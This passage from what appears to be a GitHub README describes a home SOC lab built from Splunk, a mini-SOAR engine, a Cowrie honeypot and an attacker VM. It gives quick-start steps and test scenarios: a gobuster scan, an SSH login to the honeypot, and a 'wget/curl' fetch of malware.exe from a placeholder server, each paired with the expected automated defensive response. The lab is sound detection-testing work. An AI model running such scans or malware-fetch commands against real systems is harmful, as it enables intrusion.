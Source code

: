 *(See repo for all configs.)*

---

## 6 – Deployment (Quick‑Start)

```bash
# 1. Clone repo & cd
# 2. Bring up Splunk
cd docker && docker compose -f splunk-compose.yml up -d
# 3. Populate .env on mini‑soar (Telegram, VT, AbuseIPDB, HEC creds)
# 4. pip install -r requirements.txt
# 5. Run SOAR engine
python3 soar.py  # inside mini‑soar VM
```

> **Tip :** All VMs are bridged on `192.168.56.0/24`; adjust IPs if you use a different VirtualBox network.

---

## 7 – TL;DR Scenario Walk‑Through

1. **Web recon** – on **attackervm** run:

   ```bash
   ```

gobuster dir -u http://192.168.56.110 -w /usr/share/wordlists/dirb/common.txt

````
   *Expected* : Splunk alert → SOAR blocks IP via iptables → Telegram “blocked” message.
2. **Honeypot login** – `ssh root@192.168.56.109` (Cowrie). Observe alert‑only flow.
3. **Malware fetch** – inside Cowrie session run:
   ```bash
wget/curl http://SERVER_IP:PORT/malware.exe
````

*Expected* : SOAR uploads file to VirusTotal, Telegram report, enriched event in `soar_actions`.


---

## License

MIT — see `LICENSE` file.

---
